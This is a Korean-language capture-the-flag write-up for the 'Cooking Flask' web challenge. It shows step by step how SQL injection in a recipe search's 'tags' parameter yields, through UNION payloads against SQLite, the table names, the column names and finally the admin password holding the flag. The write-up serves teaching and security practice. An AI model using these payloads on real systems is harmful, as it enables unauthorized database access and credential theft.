# Cooking Flask

```python
I threw together my own website! It's halfway done. Right now, you can search for recipes and stuff. I don't know a ton about coding and DBs, but I think I know enough so that no one can steal my admin password... I do know a lot about cooking though. All this food is going to make me burp. Sweet, well good luck

https://cooking.chal.cyberjousting.com
```

## Description

해당 문제는 블랙박스 형태의 문제로 링크만 제공되었습니다. 링크에 접속하면 아래의 페이지가 등장하며,



네비 영역을 통해 다른 페이지로 넘어갈 경우 다음과 같이 404 Not Found 에러가 발생합니다.



다른 기능은 발견하지 못했고 처음 나온 페이지에서 `Search` 버튼을 클릭하면 다음과 같이 검색된 결과를 확인할 수 있었습니다.



또한, 문제 설명에서 힌트를 발견할 수 있었습니다. 

문제 설명에는 ‘you can search for recipes and stuff.’ 라고 나와 있어서 데이터베이스 질의를 수행할 때 발생할 수 있는 취약점 즉, SQL Injection을 이용한 문제라는 것을 알 수 있었고 플래그 정보는 ‘that no one can steal my admin password’ 라 나와 있어서 유저 정보가 담긴 테이블에 패스워드가 플래그 정보인 것을 추측했습니다. 



이에 페이지에 나와있는 입력 폼에 SQL 질의 관련 특수문자인 싱글 쿼터(`'`)를 입력하여 요청 했더니 다음과 같이 URL 파라미터 `tags` 에 입력한 값(싱글쿼터, `'`, `%27`)에 의해 SQL 에러가 발생하는 것을 발견했습니다.



## Solution

먼저, 에러 코드에서 URL 파라미터 `tags` 가 LIKE 구문에 전달되는 것을 유추하였습니다.



위 코드를 통해 `tags` 에 `TEST` 를 전달할 경우 SQL 질의문 끝에  `AND (json_extract(tags, '$') LIKE '%"TEST"%')`  가 추가되는 것을 확인했습니다.

```bash
query = ""
tags = ["TEST"] # TEST 전달
tag_conditions = " OR ".join(["json_extract(tags, '$') LIKE '%\"" + tag + "\"%'" for tag in tags])
query += " AND (" + tag_conditions + ")"
print(query)
# AND (json_extract(tags, '$') LIKE '%"TEST"%')
```

즉, `TEST` 대신 `') OR 1=1 --`  를 전달할 경우 SQL 질의문의 조건문은 항상 참(`true`)을 나타냅니다.

```sql
 AND (json_extract(tags, '$') LIKE '%"') OR 1=1 -- "%')
```



반면에 `') OR 1=2 --`  를 전달할 경우 SQL 질의문의 조건문 결과가 거짓(`false`)을 나타내므로 다음과 같이 아무런 데이터가 조회되지 않는 것을 확인했습니다.



결과적으로 URL 파라미터 `tags` 에서 SQL Injection 취약점이 존재하는 것을 확인할 수 있었습니다.

그 다음 해당 문제는 검색 결과를 화면에서 확인할 수 있으므로 Union 구문을 이용한 SQL Injection 취약점을 통해 데이터베이스에 저장된 내용을 확인해 볼 수 있습니다. 이에 앞 조건문을 항상 거짓(`false`)으로 만든 뒤 UNION 구문을 작성했습니다.

최종적으로 다음의 페이로드를 통해 각 컬럼이 페이지 어느 위치에 응답되는지 확인할 수 있었습니다.

```sql
') OR 1=2 UNION SELECT "1","2","2025-01-01T00:00:00","4","5","6","[]","8" --
```



이제 SQL Injection 취약점을 통해 원하는 데이터를 조회할 수 있고, 조회된 데이터가 출력되는 위치를 확인했으니 데이터베이스의 데이터들을 조회해보겠습니다.

## Exploit

원하는 데이터를 조회하기 위해서는 5번째와 6번째 컬럼에 서브쿼리를 입력하면 됩니다. 또한, 앞서 살펴봤던 에러 메시지를 통해 DBMS가 `sqlite` 인 것으로 확인됩니다.

✅ 테이블 조회

`sqlite` 에서 테이블 명(`name`)을 조회하기 위해서는 `sqlite_master` 테이블을 조회하면 됩니다. 이에 다음과 같은 페이로드를 통해 데이터베이스에 저장된 테이블 정보를 조회할 수 있었습니다.

→ `user` 테이블 발견

```sql
') OR 1=2 UNION SELECT "1","2","2025-01-01T00:00:00","4",name,"6","[]","8" FROM sqlite_master --
```



✅ `user` 테이블의 컬럼 조회

`sqlite` 에서 컬럼조회를 위해서는 `SELECT name FROM pragma_table_info('테이블명');` 질의문을 이용할 수 있습니다. 이에 다음과 같은 페이로드를 통해 `user` 테이블의 컬럼 목록을 조회할 수 있었습니다.

→ `password`, `username` 컬럼 발견

```sql
') OR 1=2 UNION SELECT "1","2","2025-01-01T00:00:00","4",name,"6","[]","8" FROM pragma_table_info('user')--
```



✅ 유저 정보(`username`, `password`) 조회

위에서 발견한 테이블 명 `user` 와 컬럼 명(`username`, `password`)을 통해 유저 정보를 조회합니다.

→ flag 발견

```sql
') OR 1=2 UNION SELECT "1","2","2025-01-01T00:00:00","4",username,password,"[]","8" FROM user--
```



결국 유저 테이블(`user`)에서 `username` 이 admin 인 레코드의 `password` 컬럼 값에서 플래그를 획득할 수 있었습니다.